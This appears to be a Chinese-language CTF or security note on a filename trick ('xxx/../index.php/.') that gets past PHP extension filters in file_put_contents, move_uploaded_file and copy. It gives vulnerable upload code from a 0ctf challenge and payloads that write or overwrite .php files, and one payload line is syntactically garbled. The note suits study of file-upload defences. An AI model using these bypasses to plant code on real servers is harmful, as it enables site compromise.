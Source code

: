 > move_uploaded_file, file_put_contents,copy 都存在的一种特殊文件名的写入技巧

### file_put_contents()
```
$name = $_GET['name'];
$content = $_GET['content'];
$filename = $_FILES['file']['name'];
if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
	die();
}
file_put_contents($name,$content);
```
paylaod: 
```
    file_put_contents("1.php/../1.php", 'fff');
    file_put_contents("2.php/.", 'fff'); //写入新文件，无法覆盖
    file_put_contents(""xxx/../index.php/."fff"); //可以覆盖旧文件
```

### move_uploaded_file()

0ctf 上面的一道题目

```
  case 'upload':
    if (!isset($_GET["name"]) || !isset($_FILES['file'])) {
      break;
    }
    echo 'upload file';
    if ($_FILES['file']['size'] > 100000) {
      clear($dir);
      break;
    }

    $name = $dir . $_GET["name"];
    if (preg_match("/[^a-zA-Z0-9.\/]/", $name) ||
      stristr(pathinfo($name)["extension"], "h")) {
      break;
    }
    echo 'pass one';
    move_uploaded_file($_FILES['file']['tmp_name'], $name);
```

pathinfo 函数可以用`/.` 来绕过，取出来的后缀为空

move_uploaded_file函数无法写入`index.php/.`文件，执行函数报错但可以写入`xxx/../index.php/.` 这样来绕过重写index.php

https://www.anquanke.com/post/id/103784

### copy
php.net上的解释

    bool copy ( string $source , string $dest [, resource $context ] )
将文件从 source 拷贝到 dest。如果 dest 是一个 URL，则如果封装协议不支持覆盖已有的文件时拷贝操作会失败。

> 如果目标文件已存在，将会被覆盖。

test.php
```
$name = "./index.php";
$dest = "xxx/../ttt.php/.";
copy($name,$dest);
```